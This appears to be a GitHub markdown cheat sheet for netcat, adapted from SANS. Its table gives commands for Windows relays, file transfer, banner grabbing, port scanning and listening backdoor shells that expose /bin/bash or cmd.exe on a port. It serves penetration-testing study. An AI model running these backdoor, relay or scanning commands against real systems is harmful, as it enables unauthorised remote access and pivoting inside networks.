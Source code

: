 # Netcat Usage

`netcat` is a command-line or shell application that can be used for a wide variety of exploitation matters including transferring files, establishing remote shells and more! The official netcat site is http://netcat.sourceforge.net and, although Sourceforge has this repository, most Unix/Linux operating systems have a netcat application that is/can be installed via their packagers (apt-get, ports, etc.).

The [SANS Institute](http://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf) has a very good "Cheat Sheet" PDF for netcat commands and functions. Please **note** that "All syntax is designed for the original netcat versions, released by Hobbit and Weld Pond. The syntax here can be adapted for other netcats." So, you may need to modify the commands below. Please do check out their PDF.

## Commands
| Command  | Category | Description / Importance |
| -------- | -------- | ------------------------ |
| **Client:** `nc -l -p [LocalPort] -e relay.bat` <br> **Listener:** `echo nc [TargetIPaddr] [port] > relay.bat` | Relay - Windows | **Listener-to-Client Relay** - Create a relay that sends packets from the local port [LocalPort] to a netcat client connected to [TargetIPaddr] on port [port] |
| **Listener 1:** `echo nc -l -p [LocalPort_2] > relay.bat`<br>**Listener 2:** `nc -l -p [LocalPort_1] -e relay.bat` | Relay - Windows | **Listener-to-Listener Relay** - Create a relay that will send packets from any connection on {LocalPort_1] to any connection on [LocalPort_2] |
| **Client 1:** `echo nc [NextHopIPaddr] [port2] > relay.bat`<br>**Client 2:** `nc [PreviousHopIPaddr] [port] -e relay.bat` | Relay - Windows | **Client-to-Client Relay** - Create a relay that will send packets from the connection to [PreviousHopIPaddr] on port [port] to a Netcat Client connected to [NextHopIPaddr] on port [port2] |
| **Client:** `nc -l -p [LocalPort] > [outfile]`<br>**Listener:** `nc -w3 [TargetIPaddr] [port] < [infile]` | File Transfer - All OS | Push [infile] to [TargetIPaddr] on [port] |
| **Listener:** `nc -l -p [LocalPort] < [infile]`<br>**Client:** `nc -w3 [TargetIPaddr] [port] > [outfile]` | File Transfer - All OS | Connect to [TargetIPaddr] on [port] and retrieve [outfile] |
| `echo ""` &#124; `nc -v -n -w1 [TargetIPaddr] [start_port] [end_port]` | TCP Banner Grabber | Attempt to connect to each port in a range from [end_port] to [start_port] on [TargetIPaddr]. Then send a blank string to the open port and print out any banner received in response. | 
| `nc -v -n -z -w1 [TargetIPaddr] [start_port] [end_port]` | TCP Port Scanner | Attempt to connect to each port in a range from [end_port] tp [start_port] on IP address [TargetIPaddr]. |
| `nc -l -p [LocalPort] -e /bin/bash` | Backdoor - Linux | Listening backdoor shell for a Linux computer. Use a netcat client to connect to the target's IP address on the [LocalPort] and you will get a BASH shell. |
| `nc -l -p [LocalPort] -e cmd.exe` | Backdoor - Windows | Listening backdoor shell for a Windows computer. Use a netcat client to connect to the target's IP address on the [LocalPort] and you will get a CMD shell. |
